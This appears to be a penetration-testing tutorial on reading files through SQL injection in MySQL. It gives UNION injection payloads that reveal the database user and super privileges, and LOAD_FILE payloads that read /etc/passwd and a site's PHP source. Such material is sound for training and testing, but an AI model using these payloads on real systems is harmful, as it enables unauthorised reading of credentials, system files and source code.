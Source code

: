 # Read / Write Files



## Introduction

We may be able to read and write to files once we've discovered a SQL Injection.

### Privileges

Reading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes.

**DB User**

First, we have to determine which user we are within the database. While we do not necessarily need database administrator (DBA) privileges to read data

```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
```

Our `UNION` injection payload will be as follows:

Code: sql

```sql
cn' UNION SELECT 1, user(), 3, 4-- -
```

or:

Code: sql

```sql
cn' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```

**User Privileges**

Now that we know our user, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

Code: sql

```sql
SELECT super_priv FROM mysql.user
```

`UNION` injection:

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -
```

\
If we had many users within the DBMS, we can add `WHERE user="root"` to only show privileges for our current user `root`

```sql
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```



## LOAD\_FILE

```sql
SELECT LOAD_FILE('/etc/passwd');
```

`UNION` payload:

```sql
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -
```

```sql
cn' UNION SELECT 1, LOAD_FILE("/var/www/html/search.php"), 3, 4-- -
```
